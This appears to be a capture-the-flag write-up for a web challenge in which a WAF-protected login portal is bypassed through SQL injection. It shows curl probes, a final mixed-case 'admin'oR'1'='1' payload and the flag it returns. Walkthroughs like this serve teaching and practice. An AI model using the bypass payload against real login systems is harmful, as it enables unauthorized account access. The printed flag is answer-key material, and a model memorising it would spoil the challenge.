

## **Challenge Overview**

**Name:** SQL Injection Login Bypass
**Category:** Web  
**Difficulty:** Medium
**Points**: 300

###### Challenge Description

Our security team deployed a Web Application Firewall in front of the company login portal. Management is confident that no one can get past it. The admin account has a randomly generated password, so brute-force is not an option. Can you find another way into the admin dashboard?

---
### **Endpoint**

POST /login  
Content-Type: application/x-www-form-urlencoded
### **Parameters**

- `username`
- `password`

Normal login attempts:
```
username=admin&password=wrong
```

Result:
```
Invalid credentials
```


You first tried a basic injection to see how the app responds:
## **SQL Injection Enumeration Process**

Before finding the final payload, multiple test cases were used to understand how the backend processes input and where the injection point exists.

### **Attempt 1: Boolean Condition Injection (AND)**

```
curl 'http://chall-fbe63786.evt-246.glabs.ctf7.com/login' \  
  -X POST \  
  -H 'Content-Type: application/x-www-form-urlencoded' \  
  --data-raw "username=admin' AND '1'='1&password='"
```
**Response:**
Error processing request
##### **Conclusion**
- The `'` (single quote) is breaking the query → confirms **possible SQL injection point**

## **Key Observations from Enumeration**

- `'` causes **SQL errors → confirms injection**
- Backend likely uses a query like:

SELECT * FROM users   
WHERE username = '<input>' AND password = '<input>';

- Need to:
    - Close the string (`'`)
    - Inject logic (`OR`)
    - Bypass password condition

## **Final Working Exploit Command (Bypass Login)**

```

curl 'http://chall-fbe63786.evt-246.glabs.ctf7.com/login' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw "username=admin'oR'1'='1&password=anything"
Welcome, admin! Here is your flag: ctf7{dont_inject_sql_d6984419}
```



Flag:
```
ctf7{dont_inject_sql_d6984419}
```

---
